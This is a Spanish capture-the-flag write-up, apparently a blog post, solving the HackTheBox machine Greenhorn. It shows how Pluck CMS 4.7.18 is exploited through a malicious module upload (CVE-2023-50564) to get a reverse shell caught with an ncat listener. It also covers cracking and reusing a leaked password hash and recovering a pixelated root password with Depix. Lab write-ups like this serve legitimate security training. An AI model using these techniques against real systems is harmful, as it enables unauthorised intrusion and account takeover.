


+++
title = "HackTheBox - Greenhorn"
draft = false
description = "Resolución de la máquina Greenhorn"
tags = ["HTB", "Linux", "Pluck", "Gitea", "CVE", "Depix"]
summary = "OS: Linux | Dificultad: Easy | Conceptos: Pluck, Gitea, CVE, Depix"
categories = ["Writeups"]
showToc = true
showRelated = true
date = "2025-11-04T00:00:00"
+++

* Dificultad: `easy`
* Tiempo aprox. `~4h`
* **Datos Iniciales**: `10.10.11.25`

## Análisis Inicial

Iniciamos con un scan nmap:

```shell
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)
|_  256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://greenhorn.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
3000/tcp open  http    Golang net/http serverclear
```

* Añadimos `greenhorn.htb` a `/etc/hosts`.

Tanto el puerto 80 como el 3000 parecen servicios `http`:

### **Puerto 80**

Encontramos una página de presentación de _Greenhorn_.

* Se ve un botón `admin`
* Podemos ver que la página está mantenida con `Pluck`

Al entrar a `admin`:

* Encontramos la versión de `Pluck`, `4.7.18`, con 2 vulnerabilidades importantes:
  * `CVE-2023-50564`: Permite subir archivos php como módulos a Pluck dentro de archivos `.zip`, lo que permite a cualquier atacante ejecutar código en el servidor.
  * `CVE-2024-43042`: Pluck dispone de un sistema que bloquea al usuario tras varios intentos de sesión fallidos, pero intentar loguearse rápidamente produce una [condición de carrera](https://en.wikipedia.org/wiki/Race_condition) que hace que no se lleve la cuenta de tales intentos fallidos, permitiendo ataques por fuerza bruta.

### **Puerto 3000**

Se trata de una página de [Gitea](https://es.wikipedia.org/wiki/Gitea). Tras iniciar sesión, en `Explore`, encontramos un repositorio de `Greenhorn`.

Tras buscar un rato, en `/data/settings/pass.php` encuentro el siguiente hash:

```php
<?php
$ww = 'd5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163';
?>
```

Que en Crackstation se descifra para:

```txt
iloveyou1
```

Con esto iniciamos sesión en el panel de admin del puerto 80.

> _También podríamos haber conseguido la contraseña por fuerza bruta debido al `CVE-2024-43042`, ya que `iloveyou1` es una de las primeras contraseñas que se encuentran en `rockyou.txt`._

## Panel de administrador

Aquí, conociendo ya el `CVE-2023-50564`, vamos directos a `options > manage modules > Install a module...`

Subimos un reverse shell con el nombre de `a.php` dentro de `rev.zip` como módulo, y accedemos a `http://greenhorn.htb/data/modules/rev/a.php`:

Desde la terminal:

```shell
$ ncat -lvn 10.10.14.20 4321    
Ncat: Listening on 10.10.14.20:4321
...

Ncat: Connection from 10.10.11.25:60382.
Linux greenhorn 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

## Acceso inicial

Tras un rato largo buscando formas de elevar privilegios (`linpeas`, cron, sudo, archivos con SUID bit...) intento reutilizar la contraseña `iloveyou1` para cambiar de usuario a `junior`:

```shell
$ su junior
Password: iloveyou1
$ whoami
junior
```

En el directorio de `junior` encontramos los siguientes archivos:

```shell
$ ls
user.txt
Using OpenVAS.pdf
```

Para poder trabajar mejor con `Using OpenVAS.Pdf`, lo paso a mi dispositivo convirtiéndolo a base 64:

```bash
$ base64 Using* > b64

cat b64
JVBERi0xLjcKJfbk/N8KMSAwIG9iago8PAovVHlwZSAvQ2F0YWxvZw...
# Ahora copio todo el contenido (JVBERi0... hasta el final) y lo pego en un archivo local
```

En mi dispositivo:

```bash
touch 'Using OpenVAS.pdf'
nano 'Using OpenVAS.pdf'
... #Pego el contenido

xdg-open 'Using OpenVAS.pdf'
```

Y ya tengo el contenido del PDF:&#x20;



Tras no haber encontrado nada que pudiese ser un posible vector de escalada de privilegios, intento usar [este programa](https://github.com/spipm/Depixelization_poc) que permite eliminar el pixelado de imágenes dándole una imagen en la que basarse.

Usamos esta imagen como texto pixelado:&#x20;


Tras probar con varias imágenes de muestra, una en específico da el resultado buscado:

```shell
$ python3 depix.py -p ../image.H7K7E3.png -o ../output.png -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png

$ xdg-open ../output.png
```



De aquí podemos ver que la contraseña es `sidefromsidetheothersidesidefromsidetheotherside`, probamos ssh a `root`:

```shell
ssh root@greenhorn.htb
root@greenhorn.htb's password: ...

root@greenhorn.htb:~# 
```
